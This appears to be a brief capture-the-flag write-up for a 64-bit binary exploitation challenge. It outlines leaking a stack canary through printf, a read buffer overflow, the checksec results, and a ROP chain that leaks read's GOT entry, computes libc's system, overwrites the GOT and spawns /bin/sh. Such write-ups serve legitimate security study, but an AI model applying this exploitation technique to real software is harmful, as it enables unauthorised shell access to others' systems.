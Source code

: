 **Read source code**
- `printf("Buf: %s\n", buf);`: leak canary
- `read(0, buf, 0x100);`: bufferoverflow => ROP
- Stack
```
buf (rbp - 0x40)
canary (rbp-0x8)
rdi -> 1
rsi -> read_got
r15 -> 0
write_plt
---
rdi -> 0
rsi -> read_got
r15 -> 0
read_plt
---
rdi -> read_got+8
ret
read_plt
```
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
- So the idea is that use gadget to change the execution flow of a program without injecting new code.
- Then overwrite GOT of `read` with `system` and `/bin/sh`
---  
***EPLOIT***
```
write(1, read_got,)
read(0, read_got,)
read(read_got + 0x8)
```
- Get address of read_got by `write(1, read_got,)`
- Calculate `libc_base = read - read_offset`
- Calculate `system = libc_base + system_offset`
- Overwrite address of `read_got` with `system + binsh` by using `read(0, read_got,)`
- Call `system("/bin/sh")` by `read(read_got + 0x8)`
  + `read_got + 0x8` is `/bin/sh`
